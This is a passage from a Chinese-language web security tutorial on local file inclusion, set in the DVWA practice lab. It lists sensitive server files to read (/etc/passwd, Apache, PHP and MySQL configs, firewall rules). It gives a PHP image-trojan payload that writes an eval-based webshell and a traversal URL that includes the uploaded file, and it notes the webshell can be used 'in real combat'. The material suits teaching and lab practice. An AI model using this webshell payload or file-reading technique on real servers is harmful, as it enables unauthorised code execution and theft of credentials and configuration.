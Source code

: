 /etc/passwd                     														#用户账号
		/usr/local/app/apache2/conf/httpd.conf         					#apache2默认配置文件
		/usr/local/app/apache2/conf/extra/httpd-vhosts.conf   #虚拟网站设置
		/usr/local/app/php5/lib/php.ini   										    #php相关设置        
		/etc/httpd/conf/httpd.conf        											   #apache配置文件        
		/etc/my.cnf                    															   #mysql配置文件
		/etc/sysconfig/iptables            													 #查看防火墙策略

###### 2.2.1.3. 绝对路径读取案例

通过URL看到我这里是直接读取我c:\windows\win.ini的文件。

![image-20240508145909139](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508145909139.png)

###### 2.2.1.4 本地文件包含漏洞案例-配合文件上传漏洞使用

有时候我们找不到文件上传漏洞，无法上传webshell，可以先上传一个图片格式的webshell到服务器，再利用本地文件包含漏洞进行解析。

以DVWA平台为例，将Security Level选择low，编辑一个图片马，内容如下:

```php
<?php
	fwrite(fopen('shell.php','w'),'<?php eval($_GET[123]);?>');
?>
```

找到上传点进行上传：

![image-20240508144202343](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508144202343.png)

DVWA平台low等级文件包含漏洞页面如下：

![image-20240508144314789](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508144314789.png)

修改配置文件php.ini

![image-20240508144448555](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508144448555.png)

该页面用于读取C:\phpStudy\WWW\vulnerabilities\fi\路径中的文件，代码如下：

![image-20240508144534253](https://gitee.com/zh0y0/picture/raw/master/zh0y0/image-20240508144534253.png)

现在我们利用该页面去执行我们上传的图片马

构造URL如下，代码成功解析，我这里使用的phpinfo进行测试，实战直接替换为上述所写的一句话木马即可。

```
http://192.168.191.161/dvwa-master/dvwa-master/vulnerabilities/fi/?page=../../hackable/uploads/test.jpg
```



##### 2.2.2. 相对路径读取

相对路径就是指由这个文件所在的路径引起的跟其它文件（或文件夹）的路径关系。相对路径读取就是当我们不知道某个文件具体路径的时候，使用相对路径以当前位置作为参看向后退，逐次访问。

###### 2.2.2.1. 相对路径读取方式
